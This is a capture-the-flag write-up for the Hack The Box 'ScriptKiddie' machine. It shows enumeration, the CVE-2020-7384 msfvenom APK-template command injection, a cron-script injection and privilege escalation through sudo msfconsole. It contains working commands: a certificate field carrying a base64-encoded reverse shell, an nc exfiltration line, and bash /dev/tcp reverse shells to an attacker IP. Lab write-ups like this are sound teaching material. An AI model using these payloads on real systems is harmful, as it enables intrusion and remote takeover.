

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.226 scriptKiddie.htb

**nmap scan:**
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 5000 running Werkzeug httpd 0.16.1 (Python 3.8.5)



* There is no command injection or lfi.
* searchsploit and nmap don't have any known vulnerability.
* msfvenom have a template option which is vulnerable.
  * **Description:** This module exploits a command injection vulnerability in Metasploit Framework's msfvenom payload generator when using a crafted APK file as an Android payload template. Affects Metasploit Framework <= 6.0.11 and Metasploit Pro <= 4.18.0. The file produced by this module is a relatively empty yet valid-enough APK file. To trigger the vulnerability, the victim user should do the following: `msfvenom -p android/<...> -x` 
  * [CVE-2020-7384 Rapid7](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)
    * msf module: `exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`
  * [Exploit script](https://www.exploit-db.com/exploits/49491)

# Foothold

## Command Injection

The command vulnerability is in step 2 of this process from [apk.rb#L194-L197](https://github.com/rapid7/metasploit-framework/blob/64695f1/lib/msf/core/payload/apk.rb#L194-L197). keytool is executed using the following command line:
```rb
      run_cmd("keytool -genkey -v -keystore #{keystore} \
      -alias #{keyalias} -storepass #{storepass} -keypass #{keypass} -keyalg RSA \
      -keysize 2048 -startdate '#{orig_cert_startdate}' \
      -validity #{orig_cert_validity} -dname '#{orig_cert_dname}'")
```

In particular, the value for `orig_cert_dname` is obtained from step 1 of the process, where the original APK was parsed and the "Owner" field was extracted from the APK's signature.

This command string is passed to `Open3.popen3()` in [apk.rb#L29-L36](https://github.com/rapid7/metasploit-framework/blob/64695f1/lib/msf/core/payload/apk.rb#L29-L36). When this function receives a single string parameter (as opposed to multiple parameters) it effectively acts as a `system()` function.
```rb
  def run_cmd(cmd)
    begin
      stdin, stdout, stderr = Open3.popen3(cmd)
      return stdout.read + stderr.read
    rescue Errno::ENOENT
      return nil
    end
  end
```

This gives rise to a command injection vulnerability. If a crafted APK file has a signature with an **"Owner"** field containing:
```bash
#A single quote (to escape the single-quoted string)
#Followed by shell metacharacters
#and run_cmd() function see it like that
-dname '#{CN='|echo cGluZyAtYyAyIDEwLjEwLjE1Ljcx | base64 -d | sh #}'
```

When that APK file is used as an msfvenom template, arbitrary commands can be executed on the msfvenom user's system.

* [Detailed advisories](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md)
* [commit changes](https://github.com/rapid7/metasploit-framework/pull/14288/commits/d1528cc0aa48ac667304f1e5116a784fe2dc8f15)



### Exploit

This is a command injection vulnerability. When user supply a template apk to msfvenom , it takes application read it's certificate and use cert's owner for resign apk but don't check for strings certificate.

1. Create empty apk file
```bash
touch empty && zip -j payload.apk empty
```



2. Create cert and add injection payload in `-dname` field
```bash
keytool -genkey -keystore ./signing.keystore -alias "signing.key" -storepass "password" -keypass "password" -keyalg RSA -keysize 2048 -dname "CN='|echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE1LjcxLzQxNDEgMD4mMScK | base64 -d | sh #"
```



3. sign the apk with created cert
```bash
jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore ./signing.keystore -storepass "password" -keypass "password" payload.apk "signing.key"
```



and this apk execute arbitrary code in the server and give reverse shell



# Privesc

* Get shell as user "kid"
* user "pwn" have a bash script that taking content from user "kid" home folder.



* This can lead to command injection.
* Script execute by pwn cron when `/home/kid/logs/hackers` file get some data.
* using some extra words before payload to bypass `cut` command `cut -d' ' -f3-`
```bash
null null ;id|nc 10.10.15.71 4141 #
```



pspy output



reverse shell
```bash
null null ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1' #
```



<!--echo "null null ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1' #" > /home/kid/logs/hackers-->

## msfconsole with sudo

User have right to run `/opt/metasploit-framework-6.0.9/msfconsole` with sudo as root with no password
```bash
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

and inside msfconsole user "pwn" is root
```bash
sudo -u root /opt/metasploit-framework-6.0.9/msfconsole
```


